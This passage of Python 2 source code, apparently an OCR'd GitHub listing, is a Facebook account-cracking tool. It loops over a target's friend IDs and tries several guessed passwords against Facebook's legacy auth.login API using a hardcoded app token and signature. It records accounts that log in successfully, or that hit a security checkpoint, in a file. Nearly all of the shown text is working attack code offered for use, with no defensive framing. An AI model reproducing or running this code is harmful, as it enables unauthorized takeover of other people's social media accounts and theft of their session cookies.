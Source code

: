 		menu()
	else:
		print ("[!] Fill in correctly")
		choice_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (50*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
		except OSError:
			pass
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			data1 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q1 = json.loads(data1.text)
			if "access_token" in q1:
				print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q1["error_msg"]:
					print "[Checkpoint] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					data2 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q2 = json.loads(data2.text)
					if "access_token" in q2:
						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q2["error_msg"]:
							print "[Checkpoint] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							data3 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q3 = json.loads(data3.text)
							if "access_token" in q3:
								print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
								oks.append(user+pass3)
							else: